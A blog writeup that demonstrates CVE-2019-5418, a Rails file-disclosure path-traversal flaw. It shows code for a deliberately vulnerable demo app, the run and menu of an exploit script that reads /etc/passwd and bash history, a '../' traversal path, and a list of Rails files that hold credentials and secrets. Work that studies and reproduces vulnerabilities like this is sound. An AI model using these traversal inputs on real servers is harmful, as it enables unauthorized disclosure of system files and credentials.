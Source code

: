```yaml
---
layout: post
title:  "RailRoadBandit CVE-2019-5418"
date:   2019-04-7
excerpt: "Reproducution and demonistration of the vulnerablity"
image: "/images/ruby_on_rails.png"
category: writeup
tags: [ruby, CVE,demo]
comments: false
---
```

## Intro:
### Intro:

There is a File Content Disclosure vulnerability in Action View affecting Rails versions <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1.
Specially crafted accept headers in combination with calls to '''render file: '''can cause arbitrary files on the target server to be rendered, disclosing the file contents.
The impact is limited to calls to '''render''' which render file contents without a specified accept format. 

## What is Rails?
Ruby on Rails, or Rails, is a server-side web application framework written in Ruby that uses the model–view–controller (MVC) structure pattern, providing default structures for a database, a web service, and web pages. 
<span class="image center"><img src="{{ "/images/MVC.png" | absolute_url }}" alt="" /></span>

Rails is used to build full web applications like (Basecamp, GitHub, Shopify, Airbnb, Twitch, SoundCloud, Hulu, Zendesk, Square, Cookpad.)


### Path Traversal:

This vulnerability is a path traversal vulnerability (<a href="https://www.owasp.org/index.php/Top_10-2017_A5-Broken_Access_Control">OWASP Top 10: A5:2017-Broken Access Control</a>)
A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).

This attack is also known as “dot-dot-slash,” “directory traversal,” “directory climbing” and “backtracking.” 
source: <a href="https://www.owasp.org/index.php/Path_Traversal">OWASP Path Traversal</a>


### reproducing:
To demonstrate the vulnerability, i bult a Ruby on Rails site: <a href="http://bandit.bad3r.xyz/">bandit.bad3r.xyz</a>
you can clone my site and run it locally by installing Ruby on Rails then cloning my repo <a href="https://github.com/Bad3r/RailroadBandit">Bad3r/RailRoadBandit</a>
Digital Ocean has an excellent guide to get you started: <a href="https://www.digitalocean.com/community/tutorials/how-to-install-ruby-on-rails-with-rbenv-on-ubuntu-18-04">
How To Install Ruby on Rails with rbenv on Ubuntu 18.04</a>
you can also create your demo manually by editing the default application controller in
~~~
<web root folder>/app/controllers/application_controller.rb
~~~
open the file and add a call to "render file:"
~~~ruby
class ApplicationController < ActionController::Base
    def index
        render file:  "#{Rails.root}/public/bandit/bandit.html"
    end
end
~~~
here am just rendering an html file but you can also render any text fle.then edit the route file located in 
~~~
<web root folder>/config/routes.rb
~~~
to add a route for the controller:
~~~ruby
Rails.application.routes.draw do
    get 'application/index' => 'application#index'
	root 'application#index'
end
~~~
thats all you need to follow this demo. you should check if the file is rendered correctly and the route.rb config is correct.


### Exploiting the vulnerability

the script used in the demo is available in my Github repo <a href="https://github.com/Bad3r/RailroadBandit">Bad3r/RailRoadBandit</a>
run the script using the format:
~~~Bash
┌ ~/RailroadBandit
└> % python3 Bandit.py http://bandit.bad3r.xyz/ 
~~~
then you will see a menu of builtin options to view some sensetive data:
~~~Bash

└> % python3 Bandit.py http://bandit.bad3r.xyz/

	----------------------------------------------
	Arbitrary Traversal exploit for Ruby on Rails
	                 CVE-2019-5418
	----------------------------------------------
	

             Enter an option or a file path (enter quit or q to exit)

             enter 1 for /etc/passwd 

             enter 2 for /proc/cpuinfo 

             enter 3 for bash history 

             enter 4 to brute force: 
~~~
you can use one of the builtin options or give the path for the file manually
~~~Bash
../../../../../../../../../etc/passwd
~~~
<span class="image center"><img src="{{ "/images/etc_passwd.png" | absolute_url }}" alt="" /></span>
 
am working on adding more features to the script like brute forcing the web root diretory name.


### Ruby on Rails sensitive files

there is some important files in ruby on rails that can also reveal sensitive information like:
| File | Description |
|:-------------------------------------|:----------------------------------------=---:|
| /config/database.yml                 | May contain production credentials           |
| /config/initializers/secret_token.rb | Contains a secret used to hash session cookie|

> /db/seeds.rb                         
>> May contain seed data including bootstrap admin user
> /db/development.sqlite3              
>> May contain real data
